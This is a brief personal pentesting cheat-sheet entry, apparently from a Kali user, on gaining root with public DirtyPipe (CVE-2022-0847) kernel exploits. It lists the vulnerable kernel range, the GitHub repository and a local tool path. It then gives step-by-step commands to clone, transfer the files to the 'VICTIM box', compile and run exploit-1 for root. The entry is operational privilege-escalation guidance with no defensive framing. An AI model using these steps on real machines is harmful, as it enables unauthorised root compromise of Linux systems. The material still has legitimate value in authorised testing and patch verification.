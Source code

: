 Note: GCC must be present on victim box before trying

Requirements
	Linux Kernel 5.8 < 5.16.11
	i also notice it is usually ubuntu <= 20.04

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

Usage:
```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
	already here:
	/home/kali/tools/kernel_exploits/CVE-2022-0847-DirtyPipe-Exploits


Transfer all files to VICTIM box

chmod +x compile.sh
./compile.sh

./exploit-1
	you are now root
```